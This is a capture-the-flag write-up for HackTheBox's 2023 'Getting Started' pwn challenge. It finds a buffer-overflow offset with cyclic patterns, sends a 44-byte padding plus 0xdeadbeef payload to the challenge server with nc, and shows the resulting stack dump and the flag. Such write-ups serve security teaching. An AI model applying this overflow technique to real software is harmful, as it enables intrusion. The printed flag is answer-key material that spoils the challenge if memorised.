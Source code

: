 ```yaml
---
name: Getting Started (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Getting Started (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Getting Started

## Description

> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

Generate a cyclic pattern and send it to the program as input and check which bytes make it into the RIP, then unhex and find the offset.

{% code overflow="wrap" %}
```bash
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

unhex 6161616c6161616b

cyclic -l laaa
44
```
{% endcode %}

Create a payload and send it to the server.

{% code overflow="wrap" %}
```bash
python2 -c 'print "A" * 44 + "\xef\xbe\xad\xde"' > payload

nc 209.97.129.76 30115 < payload
```
{% endcode %}

Receive flag 🙂

{% code overflow="wrap" %}
```bash
      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd6d3fc690 | 0x4141414141414141 <- Start of buffer
0x00007ffd6d3fc698 | 0x4141414141414141
0x00007ffd6d3fc6a0 | 0x4141414141414141
0x00007ffd6d3fc6a8 | 0x4141414141414141
0x00007ffd6d3fc6b0 | 0x4141414141414141 <- Dummy value for alignment
0x00007ffd6d3fc6b8 | 0xdeadbeef41414141 <- Target to change
0x00007ffd6d3fc6c0 | 0x0000557386505800 <- Saved rbp
0x00007ffd6d3fc6c8 | 0x00007f02fd685c87 <- Saved return address
0x00007ffd6d3fc6d0 | 0x0000000000000001
0x00007ffd6d3fc6d8 | 0x00007ffd6d3fc7a8

HTB{b0f_s33m5_3z_r1ght?}
```
{% endcode %}
